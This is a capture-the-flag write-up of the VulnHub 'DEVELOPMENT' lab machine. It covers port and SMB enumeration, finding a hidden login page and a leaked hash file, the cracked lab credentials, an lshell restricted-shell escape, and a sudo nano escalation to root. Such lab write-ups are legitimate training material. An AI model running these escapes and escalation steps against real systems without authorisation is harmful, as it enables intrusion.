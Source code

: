 # digitalworld.local: DEVELOPMENT

[VulnHub Link](https://www.vulnhub.com/entry/digitalworldlocal-development,280/)

## Port Scanning

We start with a simple port scan and we discover a bunch of open ports, it looks like a linux box with Windows services:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
113/tcp  open  ident?
|_auth-owners: oident
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_auth-owners: root
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
|_auth-owners: root
8080/tcp open  http-proxy  IIS 6.0
...
Service Info: Host: DEVELOPMENT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: DEVELOPMENT, NetBIOS user: <unknown>, NetBIOS MAC:
...
```

We can try enumerating the shares on Samba:

```
SMB  digitalworld.local 445    DEVELOPMENT   Share   Permissions     Remark
SMB  digitalworld.local 445    DEVELOPMENT   -----   -----------     ------
SMB  digitalworld.local 445    DEVELOPMENT   print$                  PrinterDrivers
SMB  digitalworld.local 445    DEVELOPMENT   access                  
SMB  digitalworld.local 445    DEVELOPMENT   IPC$                    IPC Service (development server (Samba, Ubuntu))
```

Nothing useful...

## Web Scanning

We can try enumerating the http service on port 8080. In the index page they talk about a host-based intrusion detection system, at first i gnored it but if I tried to fuzz with gobuster the server locked me out for about 10 minutes :( We visited the /html\_pages direcory as the webserver say. After exploring we discovered a useful page, a comment in /development.html hints us about a /developmentsecretpage directory where, after a few more clicks, we found out about an interesting login page on /developmentsecretpage/patrick.php?logout=1. Trying some random credentials the server show us an error: `Deprecated: Function ereg_replace() is deprecated in /var/www/html/developmentsecretpage/slogin_lib.inc.php on line 335`

So, what can we do now? Obvious, search the error on the internet. we found an exploit on exploitdb (https://www.exploit-db.com/exploits/7444), after reading the documentation and trying something we foud out that there are user and hash on `/developmentsecretpage/slog_users.txt`

Cracking the hashes we found valid credentials as:

```
intern:12345678900987654321
patrick:P@ssw0rd25
qiu:qiu
```

## Privilege Escalation and Internal Reconnaissance

With credentials we foud out that the user intern can connect with ssh but with a restricted shell, after a few minuted of researching we found out how to escape (https://oscpnotes.infosecsanyam.in/My\_OSCP\_Preparation\_Notes--Enumeration--SSH--lshell\_bypass.html):

```
echo os.system('/bin/bash')
```

As soon we escaped the shell we escalated to the patrick user. Typing `sudo -l` we discovered that we can run nano and vim as all users, from here its easy root thanks to gtfobins:

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

`uid=0(root) gid=0(root) groups=0(root)` We are now root!

## That's was a really cool box and thanks for the reading.

## Hope to see you soon!

_Pedio Zaki_
